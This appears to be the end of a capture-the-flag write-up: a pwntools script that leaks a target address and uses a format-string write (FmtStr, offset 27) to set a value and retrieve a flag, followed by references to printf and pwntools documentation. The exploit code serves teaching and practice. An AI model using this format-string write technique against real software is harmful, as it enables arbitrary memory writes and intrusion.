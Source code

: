 ```python

io = start()

#### get win addr ####
leaks = get_win_address_and_value(io.recvuntil(b'offset.'))
desired_val = int(leaks[0], 16)
win_addr    = int(leaks[1], 16)

info(f'Desired Value: {desired_val:#x}')
info(f'Win Address  : {win_addr:#x}')

### set desired value(0x5a) at win_addr ####
offset = 27
padlen = 1

f = FmtStr(send_fmt, offset=offset, padlen=padlen)
f.write(win_addr, desired_val)
f.execute_writes()

try:
    io.recvuntil(b'Here is your flag:\n')
    flag = io.recvline().strip()
    io.critical(f'FLAG: {flag}')
except:
    io.error("Couldn't hack it!")
finally:
    io.close()
```

## References

- **glibc Manual – Formatted Output**  
    [https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html](https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html)
    
- **man 3 printf** (POSIX printf specifiers, including `%n`)  
    [https://man7.org/linux/man-pages/man3/printf.3.html](https://man7.org/linux/man-pages/man3/printf.3.html)
    
- **Pwntools Documentation – Format String Exploits**  
    [https://docs.pwntools.com/en/stable/fmtstr.html](https://docs.pwntools.com/en/stable/fmtstr.html)
    
- **Pwntools Source – `fmtstr_payload` Implementation**  
    [https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027)
    
- **Pwntools Utility – `randoms()`**  
    [https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/util/fiddling.py#L458](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/util/fiddling.py#L458)
    
- **Exploit Education – Format String Vulnerabilities**  
    [https://exploit.education/phoenix/format-string/](https://exploit.education/phoenix/format-string/)
    